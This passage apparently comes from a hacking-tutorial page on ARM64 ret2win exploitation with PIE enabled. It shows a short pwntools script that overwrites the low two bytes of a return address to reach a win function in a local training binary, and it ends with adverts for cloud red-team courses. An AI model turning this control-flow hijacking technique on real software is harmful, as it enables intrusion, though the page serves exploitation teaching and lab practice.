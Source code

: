 <figure><img src="../../../.gitbook/assets/image (1212).png" alt="" width="375"><figcaption></figcaption></figure>

You can find another off-by-one example in ARM64 in [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/), which is a real off-by-**one** in a fictitious vulnerability.

## With PIE

{% hint style="success" %}
Compile the binary **without the `-no-pie` argument**
{% endhint %}

### Off-by-2

Without a leak we don't know the exact address of the winning function but we can know the offset of the function from the binary and knowing that the return address we are overwriting is already pointing to a close address, it's possible to leak the offset to the win function (**0x7d4**) in this case and just use that offset:

<figure><img src="../../../.gitbook/assets/image (1213).png" alt="" width="563"><figcaption></figcaption></figure>

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x07d4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}


